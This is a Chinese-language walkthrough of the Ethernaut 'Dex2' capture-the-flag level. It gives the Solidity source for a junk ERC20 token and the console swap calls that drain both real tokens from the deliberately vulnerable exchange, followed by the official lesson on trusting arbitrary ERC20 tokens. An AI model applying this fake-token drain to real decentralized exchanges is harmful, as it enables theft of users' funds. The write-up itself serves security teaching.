 # 24 Dex2

## 思路

目标: 与[上一关Dex不同](https://github.com/yinhui1984/EthernautGameReferenceAnswers/blob/main/23_Dex.md), 要求窃取全部的token1和token2 (上一关是'或')

交易所代码方面, 删除了上一关`swap`函数中的限制:

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```



思路:

创建一个垃圾币token3 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Token3 is ERC20 {
    constructor(string memory _name, string memory _symbol)
        ERC20(_name, _symbol)
    {
        uint256 initSupply = 1000 * 10**decimals();
        _mint(msg.sender, initSupply);
    }
}

```

使用player部署token3, 假设 token3 合约地址为0x66cab61E3C7792Ae1fE83A294B0F92A105cF7255, player便有很多token3...

```js
token3="0x66cab61E3C7792Ae1fE83A294B0F92A105cF7255"
(await contract.balanceOf(token3, player)).toString() //"1000000000000000000000"
```



发送1000个token3 给交易所

![image](https://github.com/yinhui1984/imagehosting/blob/main/images/1676528790194028000.png?raw=true)

```js
(await contract.balanceOf(token3, instance)).toString()
"1000"
```

现在我们来看看使用token3兑换token1和token2的价格

```js
(await contract.getSwapAmount(token3, await contract.token2(), 1000)).toString()
"100"
(await contract.getSwapAmount(token3, await contract.token1(), 1000)).toString()
"100"
```

哦~~~~ 1000个token3可以兑换100个token1或token2

那么不客气了

先对交易所进行授权(运行交易所操作player的token3)

<img src="https://github.com/yinhui1984/imagehosting/blob/main/images/1676529557793643000.png?raw=true" alt="image" style="zoom:50%;" />

然后

```js
await contract.swap(token3, await contract.token1(), 1000)
await contract.swap(token3, await contract.token2(), 1000)
await contract.swap(token3, await contract.token2(), 3000)
```

```
(await contract.balanceOf(await contract.token1(), instance)).toString()
"0"
(await contract.balanceOf(await contract.token2(), instance)).toString()
"0"
```



## 心得(官方)

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.

